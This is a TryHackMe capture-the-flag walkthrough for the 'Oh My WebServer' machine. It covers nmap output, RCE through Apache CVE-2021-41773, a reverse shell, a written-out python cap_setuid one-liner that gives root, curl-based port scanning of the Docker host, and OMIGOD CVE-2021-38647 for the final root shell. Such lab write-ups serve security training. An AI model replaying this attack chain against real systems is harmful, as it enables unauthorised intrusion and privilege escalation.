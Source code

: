 ```yaml
---
title: "Oh My WebServer TryHackMe Machine Writeup and Walkthrough"
author: "Gaurav Raj"
date: 2022-03-13 21:35:30 +530
categories: [CTF, TryHackMe]
tags:
  [
    linux,
    python,
    docker,
    curl,
    setuid,
    ctf,
    tryhackme,
    thm,
    writeup,
    walkthrough,
    linux,
    shell,
    thehackersbrain,
    gauravraj,
    gaurav raj,
    gaurav,
  ]
---
```


# Introduction

## Target Machine

**Oh My WebServer**

### Target IP

```bash
export IP=10.10.237.191
```

# Enumeration

First of all let's get started by a **Nmap** Scan.

## Nmap

```bash
# Nmap 7.92 scan initiated Sat Mar 12 23:33:44 2022 as: nmap -sC -sV -A -v -oA nmap/initial 10.10.237.191
Nmap scan report for 10.10.237.191
Host is up (0.40s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Consult - Business Consultancy Agency Template | Home
|_http-favicon: Unknown favicon MD5: 02FD5D10B62C7BC5AD03F8B0F105323C
|_http-server-header: Apache/2.4.49 (Unix)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 42.513 days (since Sat Jan 29 11:15:21 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   510.90 ms 10.8.0.1
2   511.02 ms 10.10.237.191

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 12 23:34:41 2022 -- 1 IP address (1 host up) scanned in 57.44 seconds
```

## HTTP Port (80)

**HTTP** Server is just running a simple single page application.
![](/assets/images/ohmyweb/Pasted image 20220313131812.png)
After enumerating the **HTTP** Server for a while, running **gobuster**, **nikto**, checking for other services, nothing worked.
After that looking for Services for vulnerability finds out that the **Apache2 2.4.49** is vulnerable to **LFI & RCE** vulnerabilties with **CVE-2021-41773**.

![](/assets/images/ohmyweb/Pasted image 20220313132233.png)
After studing, what was the flaw a written a custom **exploit** for this specific **CVE** which will give us **RCE** on the server, you can find that exploit [here](https://github.com/thehackersbrain/CVE-2021-41773).

# Initial Access

## Reverse Shell

![](/assets/images/ohmyweb/Pasted image 20220313133014.png)

1. Running the exploit and got **RCE** on the machine.
2. Executing Reverse Shell Payload on the machine via **RCE**
3. Listening for new connection via **nc**
4. Got Reverse shell on the box as user **daemon**
5. Looking at the **hostname** of the machine, we can assume it is some kind of container, probably **docker**.

![](/assets/images/ohmyweb/Pasted image 20220313133435.png)
Stablizing the unstable reverse shell to a fully stable **tty bash shell** using **python3**.

![](/assets/images/ohmyweb/Pasted image 20220313133604.png)
As we can see from the above image that **.dockerenv** file is present in the **/** filesystem. it is definitely a **docker** container. So, now we have to somehow break through the container to get a shell to the main filesystem.

### User Flag

While enumerating the machine, found that the machine have **/usr/bin/python3.7** with **cap_setuid+ep** capbility.

```bash
daemon@4a70924bafa0:/bin$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:/bin$ python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1(daemon) groups=1(daemon)
```

![](/assets/images/ohmyweb/Pasted image 20220313142216.png)

1. Checking the machine for any **capbilities** that we can use
2. Here we found that **/usr/bin/python3.7** have **cap_setuid+ep** capbilty.
3. Using **/usr/bin/python3.7**'s **cap_setuid+ep** capbility for getting root shell.
4. Here we got shell as **root** but in the **docker** container.
5. And here we got the user flag in **/root/user.txt** file.

Now next thing we have to do is break out of the **docker** container and get shell as the root user in the main filesystem.
So after enumerating the **docker** container for a while, checked the **Network Interfaces** and their assigned **IP Addresses**. Here

```bash
root@4a70924bafa0:/root# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 392  bytes 26852 (26.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 292  bytes 80805 (78.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@4a70924bafa0:/root#
```

Here as we can see that the interface **eth0** have the **IP Address**: **172.17.0.2**, so as we know that this is the **docker** container and then the machine's or the host's IP will be **172.17.0.1**. Let's verify that we are on the correct path by pinging the host.

![](/assets/images/ohmyweb/Pasted image 20220313144458.png)

1. Checking the Network Interfaces
2. On the **eth0** we have a **IP** assigned to that.
3. So the **IP** of the container is **172.17.0.2** which means the **IP** of the host machine will be **172.17.0.1**.
4. Let's check our assumption by pinging the host.
5. As we can see **ping** command is not available, so using **curl** to check if our assumption is correct.
6. And voila, we were right.

Now let's scan for open ports on the host machine, for that also, we can use **curl** as well.

```bash
root@4a70924bafa0:/root# curl http://172.17.0.1:22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.3
Invalid SSH identification string.
curl: (56) Recv failure: Connection reset by peer
root@4a70924bafa0:/root# curl http://172.17.0.1:80 >/dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 57985  100 57985    0     0  18.4M      0 --:--:-- --:--:-- --:--:-- 18.4M
root@4a70924bafa0:/root# curl http://172.17.0.1:5985
curl: (7) Failed to connect to 172.17.0.1 port 5985: Connection refused
root@4a70924bafa0:/root# curl http://172.17.0.1:5986
curl: (56) Recv failure: Connection reset by peer
root@4a70924bafa0:/root#
```

![](/assets/images/ohmyweb/Pasted image 20220313161152.png)
So here we do have 4 ports open.

| S.No | Port | Service |
| :--: | :--: | :-----: |
|  1   |  22  |   SSH   |
|  2   |  80  |  HTTP   |
|  3   | 5985 |  WinRM  |
|  4   | 5986 | Wsmans  |

After enumerating the host machine's services for a while, found that **WinRM** service, commonly on ports **5985**, **5986** is vulnerable with the **CVE-2021-38647**, exploit can be found [here](https://github.com/AlteredSecurity/CVE-2021-38647).
This exploit is against the `OHMIGOD` service, commonly runnnig on ports as `5986`

Let's exploit that and get a reverse shell as root.
![](/assets/images/ohmyweb/Pasted image 20220313163922.png)

1. So ran that exploit with the specified arguments and got the root flag

So here we completed our machine, hope you all enjoyed it. Don't forget to share if you liked.
